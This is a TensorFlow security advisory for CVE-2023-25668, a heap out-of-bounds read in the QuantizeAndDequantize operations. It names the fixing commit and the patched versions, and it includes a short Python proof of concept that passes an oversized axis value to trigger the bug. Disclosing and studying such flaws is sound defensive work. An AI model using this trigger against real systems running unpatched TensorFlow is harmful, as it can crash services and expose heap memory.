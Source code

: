 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2023-002.md
## TFSA-2023-002: A heap out-of-buffer read vulnerability in the QuantizeAndDequantize operation

### CVE Number
CVE-2023-25668

### Impact
Attackers using Tensorflow can exploit the vulnerability. They can access heap memory which is not in the control of user, leading to a crash or RCE.
When axis is larger than the dim of input, c->Dim(input,axis) goes out of bound.
Same problem occurs in the QuantizeAndDequantizeV2/V3/V4/V4Grad operations too.
```python
import tensorflow as tf
@tf.function
def test():
    tf.raw_ops.QuantizeAndDequantizeV2(input=[2.5],
    								   input_min=[1.0],
    								   input_max=[10.0],
    								   signed_input=True,
    								   num_bits=1,
    								   range_given=True,
    								   round_mode='HALF_TO_EVEN',
    								   narrow_range=True,
    								   axis=0x7fffffff)
test()
```



### Patches
We have patched the issue in GitHub commit [7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb](https://github.com/tensorflow/tensorflow/commit/7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.




